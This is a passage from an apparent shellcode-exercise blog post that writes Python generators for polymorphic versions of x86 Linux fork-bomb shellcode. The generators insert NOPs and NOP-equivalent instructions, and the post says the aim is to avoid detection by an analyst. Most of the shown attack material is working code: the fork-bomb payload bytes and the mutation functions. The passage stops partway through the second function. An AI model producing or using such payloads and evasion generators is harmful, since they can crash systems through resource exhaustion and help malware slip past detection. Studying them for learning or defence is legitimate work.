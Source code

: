 {%asciicast 198406 %}

Now, let's create our polymorphic generator script for fork bombing shellcode.

### Shuffle it!

Unfortunately, the shellcode is too short to shuffle operands. So this strategy
doesn't work this time.

![Can't shuffle this time]({{site.url}}/assets/images/fork_no_shuffle.png)

### Add some NOPs

Even this strategy lacks of interest. In our variation, the MOV instruction
**must** be executed after the XOR and both of them, they must be executed
right before the INT.

So we can inject some NOPs in between each instructions but creating a sled,
since it would be easy for an analyst to detect.


{%highlight asm%}
def fork_nop_dope():
    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    n = randint(0, 3); 
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = 255 - byte_len(init_blk) - byte_len(setup_blk) - 3

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+format(jmp_adj, '02x');


{%endhighlight%}


### Add some NOP equivalent instruction

To solve this, I used the same NOP equivalent instructions used in execve()
shellcode.

The python script used to create polymorphic versions using this strategy is
this one. A big improvement can be rewriting the JMP instruction with some jump
equivalent, maybe adding some always true condition.

{%highlight python%}
def kill_nop_super_dope():

    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10); 
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);